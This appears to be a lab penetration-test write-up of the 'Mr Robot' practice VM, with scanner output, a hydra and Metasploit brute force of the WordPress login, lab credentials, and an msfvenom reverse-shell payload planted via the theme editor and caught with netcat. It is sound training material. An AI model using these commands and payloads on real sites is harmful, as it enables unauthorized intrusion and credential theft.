

# Penetration Test Report
## Lab Penetration Test Report

Version 1.0  
05.09.2022

TheDeveloo 

# Table of Contents

  - [Introduction](mr-robot-1.md#introduction)
  - [Objective](mr-robot-1.md#objective)
  - [Requirements](mr-robot-1.md#requirements)
  - [High-Level Summary](mr-robot-1.md#high-level-summary)
    - [Recommendations](mr-robot-1.md#recommendations)
  - [Methodology](mr-robot-1.md#methodology)
  - [Reporting](mr-robot-1.md#reporting)
  - [Information Gathering](mr-robot-1.md#information-gathering)
  - [Penetration Test](mr-robot-1.md#penetration-test)
    - [Summary](mr-robot-1.md#summary)
    - [Kill Chain - Phase 1](mr-robot-1.md#kill-chain--phase-1)
    - [Kill Chain - Phase 2](mr-robot-1.md#kill-chain--phase-2)
    - [Exploits/Vulnerabilities & Recommendations](mr-robot-1.md#exploitsvulnerabilities--recommendations)
    - [References](mr-robot-1.md#references)
  - [Maintaining Access](mr-robot-1.md#maintaining-access)
  - [House Cleaning](mr-robot-1.md#house-cleaning)
  - [Appendices](mr-robot-1.md#appendices)

# Introduction
# Objective
# Requirements

# High-Level Summary
## Recommendations
  - Update WordPress
  - Set brute force prevention

# Methodology
The methodology used in this engagement followed a robust penetration testing methodology based on the Cyber Kill Chain to enumerate and exploit each host.  
This report details each step …  

The methodology is as follows:
  - Reconnaissance
  - Weaponisation
  - Delivery
  - Exploit
  - Privilege Escalation
  - Action on Objectives

### Reconnaissance
The start of every engagement begins with performing reconnaissance on each target.  
The goals are:

  - Identify open ports
  - Identity service versions
  - Identity software installed
  - Look for data that should not be available

Tools and techniques used in this stage include:

  - nmap
  - nikto
  - dirb
  - burpsuite
  - firefox
  - wpscan

### Weaponisation
This stage of the Kill Chain is performed once enough is known about the target from the reconnaissance stage to:

  - Gain unauthorized access 

Tools and techniques used in this stage include:

  - hydra

### Delivery
This stage of the attack involves delivering:
  - reserve shell script through WordPress template editor

Tools and techniques used in this stage of the attack include:

  - WordPress
### Exploit
This stage of the attack is where a vulnerability in an application …  
Tools and techniques used in this stage of the attack include

  - reverse shell

### Privilege Escalation
This stage of the attack involves escalation privilege to a …  
Tools and techniques used in this stage of the attack include …
### Action on Objectives
This stage of the attack typically occurs only after fully compromising a …  
Tools and techniques used in this stage of the attack include c…
## Reporting
In the Penetration Test section of the report, each host has been separated into its own section, with a summary, Kill Chain report detailing each step, and some recommendations. This way of organising the report will allow system administrators to ….

# Information Gathering

## Resume

| Protocol | Port | State | Product      | Reason  | Name | Version |
|----------|------|-------|--------------|---------|------|---------|
| tcp      | 80   | open  | Apache httpd | syn-ack | http |         |
| tcp      | 443  | open  | Apache httpd | syn-ack | http |         |

### Loot
| Type       | Information                             | Gathered                     |
|------------|-----------------------------------------|------------------------------|
| Software   | Wordpress 4.3.1                         | /wp-links-opml.php           |
| Flag       | [key-1-of-3.txt](./loot/key-1-of-3.txt) | /robots.txt                  |
| Dictionary | [fsocity.dic](./loot/fsocity.dic)       | /robots.txt                  |

## Raw information
### nmap

    ┌──(kali㉿kali)-[~]
    └─$ nmap -p- -sV -T4 192.168.56.105
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 06:06 EDT
    Nmap scan report for 192.168.56.105
    Host is up (0.013s latency).
    Not shown: 65533 filtered tcp ports (no-response)
    PORT    STATE SERVICE  VERSION
    80/tcp  open  http     Apache httpd
    443/tcp open  ssl/http Apache httpd
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 945.64 seconds

### nikto

    ┌──(kali㉿kali)-[~]
    └─$ nikto -h http://192.168.56.105:80 -o '/kali-share/nikto-mrrobot-80.xml' -Format xml
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          192.168.56.105
    + Target Hostname:    192.168.56.105
    + Target Port:        80
    + Start Time:         2022-09-04 06:13:12 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + Retrieved x-powered-by header: PHP/5.5.29
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Uncommon header 'tcn' found, with contents: list
    + Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
    + OSVDB-3092: /admin/: This might be interesting...
    + OSVDB-3092: /readme: This might be interesting...
    + Uncommon header 'link' found, with contents: <http://192.168.56.105/?p=23>; rel=shortlink
    + /wp-links-opml.php: This WordPress script reveals the installed version.
    + OSVDB-3092: /license.txt: License file found may identify site software.
    + /admin/index.html: Admin login page/section found.
    + Cookie wordpress_test_cookie created without the httponly flag
    + /wp-login/: Admin login page/section found.
    + /wordpress: A Wordpress installation was found.
    + /wp-admin/wp-login.php: Wordpress login found
    + /wordpresswp-admin/wp-login.php: Wordpress login found
    + /blog/wp-login.php: Wordpress login found
    + /wp-login.php: Wordpress login found
    + /wordpresswp-login.php: Wordpress login found
    + 7919 requests: 0 error(s) and 19 item(s) reported on remote host
    + End Time:           2022-09-04 06:22:33 (GMT-4) (561 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested

### dirb

See [dirb.txt](./shell/dirb.txt)

### wpscan

    ┌──(kali㉿kali)-[~]
    └─$ wpscan --url http://192.168.56.105
    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
             WordPress Security Scanner by the WPScan Team
                             Version 3.8.22
                                   
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________
    
    [i] Updating the Database ...
    [i] Update completed.
    
    [+] URL: http://192.168.56.105/ [192.168.56.105]
    [+] Started: Sun Sep  4 13:07:31 2022
    
    Interesting Finding(s):
    
    [+] Headers
    | Interesting Entries:
    |  - Server: Apache
    |  - X-Mod-Pagespeed: 1.9.32.3-4523
    | Found By: Headers (Passive Detection)
    | Confidence: 100%
    
    [+] robots.txt found: http://192.168.56.105/robots.txt
    | Found By: Robots Txt (Aggressive Detection)
    | Confidence: 100%
    
    [+] XML-RPC seems to be enabled: http://192.168.56.105/xmlrpc.php
    | Found By: Direct Access (Aggressive Detection)
    | Confidence: 100%
    | References:
    |  - http://codex.wordpress.org/XML-RPC_Pingback_API
    |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
    |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
    |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
    |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
    
    [+] The external WP-Cron seems to be enabled: http://192.168.56.105/wp-cron.php
    | Found By: Direct Access (Aggressive Detection)
    | Confidence: 60%
    | References:
    |  - https://www.iplocation.net/defend-wordpress-from-ddos
    |  - https://github.com/wpscanteam/wpscan/issues/1299
    
    [+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
    | Found By: Emoji Settings (Passive Detection)
    |  - http://192.168.56.105/cc0b1d8.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
    | Confirmed By: Meta Generator (Passive Detection)
    |  - http://192.168.56.105/cc0b1d8.html, Match: 'WordPress 4.3.1'
    
    [+] WordPress theme in use: twentyfifteen
    | Location: http://192.168.56.105/wp-content/themes/twentyfifteen/
    | Last Updated: 2022-05-24T00:00:00.000Z
    | Readme: http://192.168.56.105/wp-content/themes/twentyfifteen/readme.txt
    | [!] The version is out of date, the latest version is 3.2
    | Style URL: http://192.168.56.105/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
    | Style Name: Twenty Fifteen
    | Style URI: https://wordpress.org/themes/twentyfifteen/
    | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
    | Author: the WordPress team
    | Author URI: https://wordpress.org/
    |
    | Found By: Css Style In 404 Page (Passive Detection)
    |
    | Version: 1.3 (80% confidence)
    | Found By: Style (Passive Detection)
    |  - http://192.168.56.105/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'
    
    [+] Enumerating All Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
    Checking Config Backups - Time: 00:00:01 <===============================================================> (137 / 137) 100.00% Time: 00:00:01
    
    [i] No Config Backups Found.
    
    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
    
    [+] Finished: Sun Sep  4 13:07:36 2022
    [+] Requests Done: 189
    [+] Cached Requests: 6
    [+] Data Sent: 45.812 KB
    [+] Data Received: 19.017 MB
    [+] Memory used: 238.633 MB
    [+] Elapsed time: 00:00:04

### TCN Header

### /wp-links-opml.php

Reveals Wordpress 4.3.1

    
<link rel="stylesheet" href="chrome://global/content/xml/XMLPrettyPrint.css" />

              This XML file does not appear to have any style information associated with it. The document tree is shown below.
            

<main id="tree" class="highlight">

&lt;opml version="1.0"&gt;

&lt;head&gt;

&lt;title&gt;Links for user's Blog!&lt;/title&gt;

&lt;dateCreated&gt;Sun, 04 Sep 2022 12:30:41 GMT&lt;/dateCreated&gt;

&lt;!-- generator="WordPress/4.3.1" --&gt;

&lt;/head&gt;

&lt;body&gt;
    &lt;/body&gt;

&lt;/opml&gt;
</main>

### license.txt

    what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?

### readme

    <html><head></head><body>I like where you head is at. However I'm not going to help you.
    </body></html>

### http://192.168.56.105/?p=23

### http://192.168.56.105/wp-login

Wordpress login page

### http://192.168.56.105/0/

Blog found

### robots.txt
#### http://192.168.56.105/admin/robots.txt

    # robotstxt.org/
    
    User-agent: *
    Disallow:

#### http://192.168.56.105/robots.txt

    User-agent: *
    fsocity.dic
    key-1-of-3.txt

### http://192.168.56.105/fsocity.dic  
This file is a dictionary  

    ┌──(kali㉿kali)-[~]
    └─$ wc -l /kali-share/downloads/fsocity.dic
    858160 /kali-share/downloads/fsocity.dic

Try to reduce the size of the dictionary
  - https://fr.manpages.org/uniq

    cat fsocity.dic | sort | uniq > fsociety_filtered.txt

Result

    ┌──(kali㉿kali)-[~]
    └─$ wc -l fsociety_filtered.txt            
    11451 fsociety_filtered.txt

### http://192.168.56.105/key-1-of-3.txt

    073403c8a58a1f80d943455fb30724b9

### http://192.168.56.105/phpmyadmin

Content

    For security reasons, this URL is only accessible using localhost (127.0.0.1) as the hostname.

Try fake hostname

    ┌──(kali㉿kali)-[~]
    └─$ curl --resolve 192.168.56.105:80:127.0.0.1 http://192.168.56.105/phpmyadmin
    curl: (7) Failed to connect to 192.168.56.105 port 80 after 0 ms: Connection refused

### WordPress Pingback Access

# Penetration Test
| Key                     | Value                 |
|-------------------------|-----------------------|
| Hostname                | MrRobot               |
| IP Address              | 192.168.56.105        |
| Operating System        | Debian                |
| Ports Open              | 80, 443               |
| Services & Applications | Wordpress Bitnami |
| Proof                   |                       |

## Credentials

- WordPress
  - User: `Elliot`
  - Pass: `ER28-0652`

- FTP
  - Base: `/opt/bitnami/apps/wordpress/htdocs/`
  - User:`bitnamiftp`
  - Pass:`inevoL7eAlBeD2b5WszPbZ2gJ971tJZtP0j86NYPyh6Wfz1x8a`
  - SSL: No

- MySQL
  - User:`bn_wordpress`
  - Pass:`570fd42948`
  - Host: `localhost:3306`
  - Charset: `UTF-8`

## Summary

| What worked?                                                   | What didn’t work? |
|----------------------------------------------------------------|-------------------|
| - WordPress pingback access - Brute force on /wp-login.php | - dirb scan       |

## Kill Chain – Phase 1

### Reconnaissance

  - Found `/wp-login.php` with nikto
  - Found `/fsocity.dic` in robots.txt
    - Filtered dictionary create fsociety-filtered.txt

### Weaponisation

#### Brute force

    ┌──(kali㉿kali)-[~]
    └─$ hydra -L /kali-share/downloads/fsocity.dic -p test 192.168.56.105 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:Invalid username"
    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 10:17:23
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
    [DATA] attacking http-post-form://192.168.56.105:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:Invalid username
    [80][http-post-form] host: 192.168.56.105   login: Elliot   password: test
    [80][http-post-form] host: 192.168.56.105   login: elliot   password: test
    [80][http-post-form] host: 192.168.56.105   login: ELLIOT   password: test
    ^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.

#### XML-RPC Username/Password Login Scanner

https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/

    msfconsole
    use use auxiliary/scanner/http/wordpress_xmlrpc_login
    set RHOSTS 192.168.56.105
    set USERNAME Elliot
    set PASS_FILE ~/fsociety-filtered.txt

Result

    [+] 192.168.56.105:80 - Success: 'Elliot:ER28-0652'
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) >

#### Loot

| Type       | Information                                                               | Gathered                     |
|------------|---------------------------------------------------------------------------|------------------------------|
| Credential | Wordpress:   - `Elliot`:`ER28-0652`   - `elliot`   - `ELLIOT` | Brute force on /wp-login.php |

### Exploit

Login using:
  - Username: `Elliot`
  - Password: `ER28-0652`

## Kill Chain – Phase 2

### Reconnaissance
#### XSS
Create page with a script, maybe we can create a reverse shell

Yes, we can... ...but not so useful

#### WordPress Plugins

#### WordPress Users

#### WordPress template editor

This WordPress allows users to edit php files of the template

### Weaponisation

We should be able to insert a reverse shell through the theme editor

### Delivery

#### https://github.com/nisforrnicholas/WordPress-Theme-Editor-Exploit

#### msfvenom

    msfvenom -p php/reverse_php LHOST=192.168.56.107 > payload.php

Modify so `<?php`

doesn't get commented with `/*` at the beginning and ends with `?>`

Then copy it in the `comments.php` file  
https://192.168.56.105/wp-admin/theme-editor.php?file=comments.php&theme=twentyfifteen&scrollto=0

Then call `http://192.168.56.105/wp-content/themes/twentyfifteen/comments.php`  
https://devowl.io/2020/wordpress-file-folder-structure-explained/

### Privilege Escalation

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444                                              
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34032
    uname -a
    Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
.

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444  
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34034
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    libuuid:x:100:101::/var/lib/libuuid:
    syslog:x:101:104::/home/syslog:/bin/false
    sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
    ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
    bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
    mysql:x:1001:1001::/home/mysql:
    varnish:x:999:999::/home/varnish:
    robot:x:1002:1002::/home/robot:
.

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444                                                            
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34036
    whoami
    daemon
    cat /proc/version
    Linux version 3.13.0-55-generic (buildd@brownie) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015
    cat /etc/issue
    _____          __________      ___.           __
    /     \\_______  \\______   \\ ____\\_ |__   _____/  |_
    /  \\ /  \\_  __ \\  |       _//  _ \\| __ \\ /  _ \\   __\\
    /    Y    \\  | \\/  |    |   (  <_> ) \\_\\ (  <_> )  |
    \\____|__  /__|     |____|_  /\\____/|___  /\\____/|__|
    \\/                \\/           \\/
.

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34037
    ps aux
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root         1  0.0  0.3  33240  1608 ?        Ss   20:04   0:00 /sbin/init
    root         2  0.0  0.0      0     0 ?        S    20:04   0:00 [kthreadd]
    root         3  0.0  0.0      0     0 ?        S    20:04   0:00 [ksoftirqd/0]
    root         4  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/0:0]
    root         5  0.0  0.0      0     0 ?        S<   20:04   0:00 [kworker/0:0H]
    root         6  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/u2:0]
    root         7  0.0  0.0      0     0 ?        S    20:04   0:00 [rcu_sched]
    root         8  0.0  0.0      0     0 ?        S    20:04   0:00 [rcuos/0]
    root         9  0.0  0.0      0     0 ?        S    20:04   0:00 [rcu_bh]
    root        10  0.0  0.0      0     0 ?        S    20:04   0:00 [rcuob/0]
    root        11  0.0  0.0      0     0 ?        S    20:04   0:00 [migration/0]
    root        12  0.0  0.0      0     0 ?        S    20:04   0:00 [watchdog/0]
    root        13  0.0  0.0      0     0 ?        S<   20:04   0:00 [khelper]
    root        14  0.0  0.0      0     0 ?        S    20:04   0:00 [kdevtmpfs]
    root        15  0.0  0.0      0     0 ?        S<   20:04   0:00 [netns]
    root        16  0.0  0.0      0     0 ?        S<   20:04   0:00 [writeback]
    root        17  0.0  0.0      0     0 ?        S<   20:04   0:00 [kintegrityd]
    root        18  0.0  0.0      0     0 ?        S<   20:04   0:00 [bioset]
    root        19  0.0  0.0      0     0 ?        S<   20:04   0:00 [kworker/u3:0]
    root        20  0.0  0.0      0     0 ?        S<   20:04   0:00 [kblockd]
    root        21  0.0  0.0      0     0 ?        S<   20:04   0:00 [ata_sff]
    root        22  0.0  0.0      0     0 ?        S    20:04   0:00 [khubd]
    root        23  0.0  0.0      0     0 ?        S<   20:04   0:00 [md]
    root        24  0.0  0.0      0     0 ?        S<   20:04   0:00 [devfreq_wq]
    root        25  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/0:1]
    root        27  0.0  0.0      0     0 ?        S    20:04   0:00 [khungtaskd]
    root        28  0.0  0.0      0     0 ?        S    20:04   0:00 [kswapd0]
    root        29  0.0  0.0      0     0 ?        SN   20:04   0:00 [ksmd]
    root        30  0.0  0.0      0     0 ?        S    20:04   0:00 [fsnotify_mark]
    root        31  0.0  0.0      0     0 ?        S    20:04   0:00 [ecryptfs-kthrea]
    root        32  0.0  0.0      0     0 ?        S<   20:04   0:00 [crypto]
    root        44  0.0  0.0      0     0 ?        S<   20:04   0:00 [kthrotld]
    root        46  0.0  0.0      0     0 ?        S    20:04   0:00 [scsi_eh_0]
    root        47  0.0  0.0      0     0 ?        S    20:04   0:00 [scsi_eh_1]
    root        68  0.0  0.0      0     0 ?        S<   20:04   0:00 [deferwq]
    root        69  0.0  0.0      0     0 ?        S<   20:04   0:00 [charger_manager]
    root        70  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/u2:4]
    root       114  0.0  0.0      0     0 ?        S<   20:04   0:00 [kpsmoused]
    root       128  0.0  0.0      0     0 ?        S<   20:04   0:00 [kworker/u3:1]
    root       129  0.0  0.0      0     0 ?        S    20:04   0:00 [jbd2/sda1-8]
    root       130  0.0  0.0      0     0 ?        S<   20:04   0:00 [ext4-rsv-conver]
    root       273  0.0  0.0  19472   260 ?        S    20:04   0:00 upstart-udev-bridge --daemon
    root       278  0.0  0.0  49936   132 ?        Ss   20:04   0:00 /lib/systemd/systemd-udevd --daemon
    syslog     334  0.0  0.0 255840   128 ?        Ssl  20:04   0:00 rsyslogd
    root       340  0.0  0.0  15272   264 ?        S    20:04   0:00 upstart-file-bridge --daemon
    root       631  0.0  0.1  10220   792 ?        Ss   20:04   0:00 dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
    root       749  0.0  0.0  23536     0 ?        Ss   20:04   0:00 /usr/sbin/vsftpd
    root       938  0.0  0.0  15388   380 ?        S    20:04   0:00 upstart-socket-bridge --daemon
    root       965  0.0  0.0  14536    40 tty4     Ss+  20:04   0:00 /sbin/getty -8 38400 tty4
    root       967  0.0  0.0  14536    40 tty5     Ss+  20:04   0:00 /sbin/getty -8 38400 tty5
    root       970  0.0  0.0  14536    40 tty2     Ss+  20:04   0:00 /sbin/getty -8 38400 tty2
    root       971  0.0  0.0  14536    40 tty3     Ss+  20:04   0:00 /sbin/getty -8 38400 tty3
    root       973  0.0  0.0  14536    40 tty6     Ss+  20:04   0:00 /sbin/getty -8 38400 tty6
    root      1001  0.0  0.0  23652   164 ?        Ss   20:04   0:00 cron
    root      1181  0.0  0.0   4440    40 ?        S    20:04   0:00 /bin/sh /opt/bitnami/mysql/bin/mysqld_safe --defaults-file=/opt/bitnami/mysql/my.cnf --port=3306 --socket=/opt/bitnami/mysql/tmp/mysql.sock --datadir=/opt/bitnami/mysql/data --log-error=/opt/bitnami/mysql/data/mysqld.log --pid-file=/opt/bitnami/mysql/data/mysqld.pid --lower-case-table-names=1
    mysql     1454  0.1 50.0 1305632 251148 ?      Sl   20:04   0:04 /opt/bitnami/mysql/bin/mysqld.bin --defaults-file=/opt/bitnami/mysql/my.cnf --basedir=/opt/bitnami/mysql --datadir=/opt/bitnami/mysql/data --plugin-dir=/opt/bitnami/mysql/lib/plugin --user=mysql --lower-case-table-names=1 --log-error=/opt/bitnami/mysql/data/mysqld.log --pid-file=/opt/bitnami/mysql/data/mysqld.pid --socket=/opt/bitnami/mysql/tmp/mysql.sock --port=3306
    root      1517  0.0  0.9 258616  4864 ?        Ss   20:04   0:00 php-fpm: master process (/opt/bitnami/php/etc/php-fpm.conf)
    daemon    1518  0.0  7.5 265580 37876 ?        S    20:04   0:00 php-fpm: pool wordpress
    daemon    1519  0.0  8.6 266848 43380 ?        S    20:04   0:00 php-fpm: pool wordpress
    root      1524  0.0  4.0 207948 20100 ?        Ss   20:04   0:00 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1526  0.0  2.6 987396 13332 ?        Sl   20:04   0:01 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1527  0.0  1.6 969920  8504 ?        Sl   20:04   0:01 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1528  0.1  2.2 986516 11088 ?        Sl   20:04   0:05 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    root      1671  0.0  0.2 104328  1392 ?        Sl   20:05   0:00 /usr/bin/monit -c /etc/monit/monitrc
    root      1697  0.0  0.1  14536   952 tty1     Ss+  20:05   0:00 /sbin/getty -8 38400 tty1
    daemon    1717  0.0  2.9 986316 14780 ?        Sl   20:09   0:01 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1746  0.0  7.2 266228 36288 ?        S    20:09   0:00 php-fpm: pool wordpress
    daemon    1913  0.0  0.1   4440   652 ?        S    21:08   0:00 sh -c ps aux
    daemon    1914  0.0  0.2  15564  1164 ?        R    21:08   0:00 ps aux
.

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34038
    dpkg -l
    Desired=Unknown/Install/Remove/Purge/Hold
    | Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
    |/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
    ||/ Name                            Version                          Architecture Description
    +++-===============================-================================-============-===============================================================================
    ii  adduser                         3.113+nmu3ubuntu3                all          add and remove users and groups
    ii  apt                             1.0.1ubuntu2.8                   amd64        commandline package manager
    ii  apt-utils                       1.0.1ubuntu2.8                   amd64        package management related utility programs
    ii  autoconf                        2.69-6                           all          automatic configure script builder
    ii  automake                        1:1.14.1-2ubuntu1                all          Tool for generating GNU Standards-compliant Makefiles
    ii  autotools-dev                   20130810.1                       all          Update infrastructure for config.{guess,sub} files
    ii  base-files                      7.2ubuntu5.2                     amd64        Debian base system miscellaneous files
    ii  base-passwd                     3.5.33                           amd64        Debian base system master password and group files
    ii  bash                            4.3-7ubuntu1.5                   amd64        GNU Bourne Again SHell
    ii  binutils                        2.24-5ubuntu13                   amd64        GNU assembler, linker and binary utilities
    ii  bsdutils                        1:2.20.1-5.1ubuntu20.4           amd64        Basic utilities from 4.4BSD-Lite
    ii  build-essential                 11.6ubuntu6                      amd64        Informational list of build-essential packages
    ii  busybox-initramfs               1:1.21.0-1ubuntu1                amd64        Standalone shell setup for initramfs
    ii  bzip2                           1.0.6-5                          amd64        high-quality block-sorting file compressor - utilities
    ii  ca-certificates                 20141019ubuntu0.14.04.1          all          Common CA certificates
    ii  console-setup                   1.70ubuntu8                      all          console font and keymap setup program
    ii  coreutils                       8.21-1ubuntu5.1                  amd64        GNU core utilities
    ii  cpio                            2.11+dfsg-1ubuntu1.1             amd64        GNU cpio -- a program to manage archives of files
    ii  cpp                             4:4.8.2-1ubuntu6                 amd64        GNU C preprocessor (cpp)
    ii  cpp-4.8                         4.8.4-2ubuntu1~14.04             amd64        GNU C preprocessor
    ii  cron                            3.0pl1-124ubuntu2                amd64        process scheduling daemon
    ii  curl                            7.35.0-1ubuntu2.5                amd64        command line tool for transferring data with URL syntax
    ii  dash                            0.5.7-4ubuntu1                   amd64        POSIX-compliant shell
    ii  debconf                         1.5.51ubuntu2                    all          Debian configuration management system
    ii  debconf-i18n                    1.5.51ubuntu2                    all          full internationalization support for debconf
    ii  debianutils                     4.4                              amd64        Miscellaneous utilities specific to Debian
    ii  dh-python                       1.20140128-1ubuntu8              all          Debian helper tools for packaging Python libraries and applications
    ii  diffutils                       1:3.3-1                          amd64        File comparison utilities
    ii  dmsetup                         2:1.02.77-6ubuntu2               amd64        Linux Kernel Device Mapper userspace library
    ii  dpkg                            1.17.5ubuntu5.4                  amd64        Debian package management system
    ii  dpkg-dev                        1.17.5ubuntu5.4                  all          Debian package development tools
    ii  e2fslibs:amd64                  1.42.9-3ubuntu1.2                amd64        ext2/ext3/ext4 file system libraries
    ii  e2fsprogs                       1.42.9-3ubuntu1.2                amd64        ext2/ext3/ext4 file system utilities
    ii  eject                           2.1.5+deb1+cvs20081104-13.1      amd64        ejects CDs and operates CD-Changers under Linux
    ii  fakeroot                        1.20-3ubuntu2                    amd64        tool for simulating superuser privileges
    ii  file                            1:5.14-2ubuntu3.3                amd64        Determines file type using "magic" numbers
    ii  findutils                       4.4.2-7                          amd64        utilities for finding files--find, xargs
    ii  fontconfig                      2.11.0-0ubuntu4.1                amd64        generic font configuration library - support binaries
    ii  fontconfig-config               2.11.0-0ubuntu4.1                all          generic font configuration library - configuration
    ii  fonts-dejavu-core               2.34-1ubuntu1                    all          Vera font family derivate with additional characters
    ii  g++                             4:4.8.2-1ubuntu6                 amd64        GNU C++ compiler
